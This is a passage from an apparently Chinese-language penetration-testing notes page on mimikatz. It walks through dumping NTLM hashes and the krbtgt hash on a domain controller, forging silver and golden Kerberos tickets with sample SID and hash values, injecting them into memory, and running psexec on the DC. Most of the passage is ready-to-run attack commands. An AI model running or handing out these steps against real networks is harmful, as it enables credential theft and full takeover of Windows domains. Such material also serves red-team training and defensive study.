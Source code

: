 在域控上执行以下命令获取本地账户 NTLM Hash 和 SID

```bash
mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```

![](../../../assets/img/Security/安全工具/mimikatz/1.png)

然后将生成白银票据注入到内存中,并查看票据生成情况。查看目标的文件共享服务成功：
```bash
kerberos::golden /domain:ffffffff0x.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /rc4:f9ca454a3544172034a8666a79eda95e /service:cifs /user:test /ptt

# 这里的 cifs 是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统
```

访问测试

![](../../../assets/img/Security/安全工具/mimikatz/2.png)

---

## Golden_Tickets

dump krbtgt hash
```bash
privilege::debug
lsadump::lsa /patch

# 或

lsadump::dcsync /domain:<域名> /user:krbtgt
```

使用 mimikatz 伪造的黄金票据：
```bash
kerberos::golden /user:<用户名> /domain:<域名> /sid:<域SID> /krbtgt:<Hash> /ticket:test.kiribi
```

利用 mimikatz 的 kerberos::ptt 将黄金票据 test.kiribi 注入到内存中：
```bash
# 清除缓存的票据
kerberos::purge

# 注入黄金票据 test.kiribi
kerberos::ptt test.kiribi

# 列出票据
kerberos::list
```

> 导入的票据在20分钟内有效，过期之后再次导入就行

现在可以访问域控共享目录，还能在 DC 上远程执行 psexec

但是需要注意的是用 psexec 远程执行命令的时候，需要不能使用 IP 访问。使用 NetBios 的服务名访问才会走 Kerberos 认证，达到伪造凭据的攻击
